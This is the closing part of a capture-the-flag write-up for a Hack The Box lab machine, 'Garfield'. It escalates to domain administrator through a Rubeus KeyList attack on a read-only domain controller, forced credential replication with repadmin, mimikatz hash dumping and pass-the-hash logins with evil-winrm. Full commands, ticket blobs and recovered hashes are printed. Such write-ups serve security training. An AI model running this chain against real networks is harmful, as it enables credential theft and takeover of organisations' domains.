KqHAKSnOmofavcW9+57qQr0Ga4TTdFpVUUXNrmMylgGGj1n41tXVd7OVYsRf25f0lcZI9JLtfwWdnKrnMvH4wwVkQ5xm/aJdFvPoJxC3M/qRzDTng/WkEwhQXuI75jqkEHjS7sQq0AoeKBMJFHfMZmOn5tvHUb2D8Kh6wKkb90h/6QmwLGvazJ591eUDNlbU4xQuSdOtkrOSmgNFMz6qcdVIxZbpfvYWjZ6zOBm3/VKfLC6V6jA+SipCza0b4bAVWQNkIhoUF/4b4rxLNnb6c+yaLW13mQv0Z6aNk5Qpfn96dEAk3Q3wAYTxuLgL0Ixv3CFO5KOyWt6rhM6N72770EonE+iDMZOSAghQ/PDctf000F6eTHj0xgHxmQP2/y5wnOdQLlYHDpksU3Dhyiemv0rcV7QHwLFYgmA7bTx5jlkY/+3xnGJx05nuM1cXJ7duq7luYAQkLSxCdX4F2s+ISF7vvENDvGjaZLl5oVDC0p0/N1orZcyaRJtFy7rM+EWI4hn5/pVECwa6BEeN/bNbha0tjwRQunnW+wUHP14U8j6N+TT2RpfO/FDmRchZG1Mf762unLDSDeC8USl1B6Rj8HXN1evMxqKkf5PxQnNA9FbRj8xCtOi5uuSl6PKE4F3p90kko4H+MIH7oAMCAQCigfMEgfB9ge0wgeqggecwgeQwgeGgKzApoAMCARKhIgQgFjVZd0lZkYUYWKC7mGXt11wbtimBvLpK6SE9fkj1nxqhDhsMR0FSRklFTEQuSFRCohowGKADAgEBoREwDxsNQWRtaW5pc3RyYXRvcqMHAwUAQIEAAKQRGA8yMDI2MDQxMzA4MDMwMFqlERgPMjAyNjA0MTMwODAzMDBaphEYDzIwMjYwNDEzMTgwMzAwWqcRGA8yMDI2MDQyMDA4MDMwMFqoDhsMR0FSRklFTEQuSFRCqSEwH6ADAgECoRgwFhsGa3JidGd0GwxnYXJmaWVsZC5odGI=
```

#### KeyList Attack

```Shell
powershell -c "Import-Module C:\Windows\Temp\Invoke-Rubeus.ps1; Invoke-Rubeus -Command 'asktgs /enctype:aes256 /keyList /service:krbtgt/garfield.htb /dc:10.129.27.1 /nowrap /ticket:doIFkjCCBY6gAwIBBaEDAgEWooIEfzCCBHthggR3MIIEc6ADAgEFoQ4bDEdBUkZJRUxELkhUQqIhMB+gAwIBAqEYMBYbBmtyYnRndBsMZ2FyZmllbGQuaHRio4IENzCCBDOgAwIBEqEGAgQgNQAAooIEIgSCBB70MeDv6HkZ+gnwmnJrswUjjsChsOXOmtT/Zfgknss1rAVoKGgMSPr8oZqHlornnPvw6DSTzJt96pXVrd5vyHort23mRQjsJvZA2Ot+lrM/5mPAYrf8Gkc68U7IOISGx9ZsmBXRDAdqJUUVUSfojxAsi3nV+e4rzFebOSrJPH+d2yl2rlEY9IDcSPp2xG4Mxxul2Zxo88Jbg6to00zI66mtKbmZukE1kzXgDlgKYJLwHAqMgdDesokP2lNRsxPXSJDZBzWvIZT966SeU9DhUF+QIZZBRovkvS9hQ/GsJBLQcu4BaPsjbAuWedPIfX/V/4VpQlpPVWV4KXMau2MWi4BxtRsd3FPOGS0JitQSHbLuaFR5gkPUfo3SCegXnnLm/MHRFuw7EukvCiA7F/MgEa1qhfyQt2amvkNvlLsDRz8tMYUG2DPY49YLcZYEFGVXrGSxrGNbjxdACw/6WC+rJOxXJ/D/v7jnXdBaYqxmlF7CRjoDZ5Oqvyggy1NaB45kN3HUgyCtXWHDOl0rE6ZWFj6iN81i7bOS1uBpdtvXvelN/5167bX81FcWVfHXXN2l6NK1yzFjQPssQf6kHR7NYfaawcuAdQ6cxuaCcPje+5+MHr8wH+CI7PlVuPdtqkQtf1jyo3yGzd6OXIs6q+lKAB9HPojsl2rmm1Abj/u4XIZDDDSXHopc2kYJdQ4Ibghl8Wj+SL/OXPCSUuvyq/cchyYY3K2Mt1vQE94HzfAf5H0gPnnUVnJzyPpay/14KqHAKSnOmofavcW9+57qQr0Ga4TTdFpVUUXNrmMylgGGj1n41tXVd7OVYsRf25f0lcZI9JLtfwWdnKrnMvH4wwVkQ5xm/aJdFvPoJxC3M/qRzDTng/WkEwhQXuI75jqkEHjS7sQq0AoeKBMJFHfMZmOn5tvHUb2D8Kh6wKkb90h/6QmwLGvazJ591eUDNlbU4xQuSdOtkrOSmgNFMz6qcdVIxZbpfvYWjZ6zOBm3/VKfLC6V6jA+SipCza0b4bAVWQNkIhoUF/4b4rxLNnb6c+yaLW13mQv0Z6aNk5Qpfn96dEAk3Q3wAYTxuLgL0Ixv3CFO5KOyWt6rhM6N72770EonE+iDMZOSAghQ/PDctf000F6eTHj0xgHxmQP2/y5wnOdQLlYHDpksU3Dhyiemv0rcV7QHwLFYgmA7bTx5jlkY/+3xnGJx05nuM1cXJ7duq7luYAQkLSxCdX4F2s+ISF7vvENDvGjaZLl5oVDC0p0/N1orZcyaRJtFy7rM+EWI4hn5/pVECwa6BEeN/bNbha0tjwRQunnW+wUHP14U8j6N+TT2RpfO/FDmRchZG1Mf762unLDSDeC8USl1B6Rj8HXN1evMxqKkf5PxQnNA9FbRj8xCtOi5uuSl6PKE4F3p90kko4H+MIH7oAMCAQCigfMEgfB9ge0wgeqggecwgeQwgeGgKzApoAMCARKhIgQgFjVZd0lZkYUYWKC7mGXt11wbtimBvLpK6SE9fkj1nxqhDhsMR0FSRklFTEQuSFRCohowGKADAgEBoREwDxsNQWRtaW5pc3RyYXRvcqMHAwUAQIEAAKQRGA8yMDI2MDQxMzA4MDMwMFqlERgPMjAyNjA0MTMwODAzMDBaphEYDzIwMjYwNDEzMTgwMzAwWqcRGA8yMDI2MDQyMDA4MDMwMFqoDhsMR0FSRklFTEQuSFRCqSEwH6ADAgECoRgwFhsGa3JidGd0GwxnYXJmaWVsZC5odGI='"
DAgECoRgwFhsGa3JidGd0GwxnYXJmaWVsZC5odGI='"

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.1 

[*] Action: Ask TGS

[*] Requesting 'aes256_cts_hmac_sha1' etype for the service ticket
[*] Building KeyList TGS-REQ request for: 'Administrator'
[*] Using domain controller: 10.129.27.1
[+] TGS request successful!
[*] base64(ticket.kirbi):
  ServiceName              :  krbtgt/GARFIELD.HTB
  ServiceRealm             :  GARFIELD.HTB
  UserName                 :  Administrator (NT_PRINCIPAL)
  UserRealm                :  GARFIELD.HTB
  StartTime                :  4/13/2026 1:05:08 AM
  EndTime                  :  4/13/2026 11:03:00 AM
  RenewTill                :  1/1/0001 12:00:00 AM
  Flags                    :  name_canonicalize
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  jaE15hLbEbgcYB+0fJgCMz5vBD4sHNDI6WubAO71wZE=
  Password Hash            :  EE238F6DEBC752010428F20875B092D5


C:\Windows\system32> 

```

#### Root Access 
```bash
┌──(penguin㉿0X0F)-[~/CPTS/Machines/S10/Garfield]
└─$ evil-winrm -i DC01.garfield.htb -u Administrator -H EE238F6DEBC752010428F20875B092D5
```

```bash
*Evil-WinRM* PS C:\Users\Administrator\Documents> cat C:\Users\Administrator\Desktop\root.txt
 
df25d02410615ceb8a1993e2dac67142
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
garfield\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> 

```


## Alternative Method for Root

#### Add l.wilson_adm to RODC Administrators

```bash
┌──(penguin㉿0X0F)-[~/CPTS/Machines/S10/Garfield]
└─$ bloodyAD --host DC01.garfield.htb -d garfield.htb -u l.wilson_adm -p 'NewP@ss123!' get membership l.wilson_adm     

distinguishedName: CN=Users,CN=Builtin,DC=garfield,DC=htb
objectSid: S-1-5-32-545
sAMAccountName: Users

distinguishedName: CN=Remote Desktop Users,CN=Builtin,DC=garfield,DC=htb
objectSid: S-1-5-32-555
sAMAccountName: Remote Desktop Users

distinguishedName: CN=Remote Management Users,CN=Builtin,DC=garfield,DC=htb
objectSid: S-1-5-32-580
sAMAccountName: Remote Management Users

distinguishedName: CN=Domain Users,CN=Users,DC=garfield,DC=htb
objectSid: S-1-5-21-2502726253-3859040611-225969357-513
sAMAccountName: Domain Users

distinguishedName: CN=RODC Administrators,CN=Users,DC=garfield,DC=htb
objectSid: S-1-5-21-2502726253-3859040611-225969357-2101
sAMAccountName: RODC Administrators

distinguishedName: CN=Tier 1,CN=Users,DC=garfield,DC=htb
objectSid: S-1-5-21-2502726253-3859040611-225969357-3108
sAMAccountName: Tier 1
```

Once l.wilson_adm is in **RODC Administrators**, that group has `WriteProperty` on `msDS-RevealOnDemandGroup` and `msDS-NeverRevealGroup` on the RODC01 computer object so bloodyAD can modify them directly without needing SYSTEM on RODC01 first.

	Note -> This step was already done in Method 1  
	via ldapmodify. The PRP changes persist across 
	sessions so no need to redo.


#### Force Credential Replication to RODC01

```Shell
C:\Windows\system32> repadmin /rodcpwdrepl RODC01 DC01 "CN=Administrator,CN=Users,DC=garfield,DC=htb"
 
Successfully replicated secrets for user CN=Administrator,CN=Users,DC=garfield,DC=htb on read-only DC RODC01 from full DC DC01.


C:\Windows\system32> 

```

#### Dump Hash Directly with Mimikatz

```bash
C:\Windows\system32> .\mimikatz.exe
 
  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/


mimikatz # 
privilege::debug
mimikatz # Privilege '20' OK

lsadump::lsa /patch
mimikatz # Domain : GARFIELD / S-1-5-21-2502726253-3859040611-225969357

RID  : 000001f4 (500)
User : Administrator
LM   : 
NTLM : ee238f6debc752010428f20875b092d5

```

NTLM : -`ee238f6debc752010428f20875b092d5`


```bash

┌──(penguin㉿0X0F)-[~/CPTS/Machines/S10/Garfield]
└─$ evil-winrm -i DC01.garfield.htb -u Administrator -H ee238f6debc752010428f20875b092d5
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
garfield\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> 

```

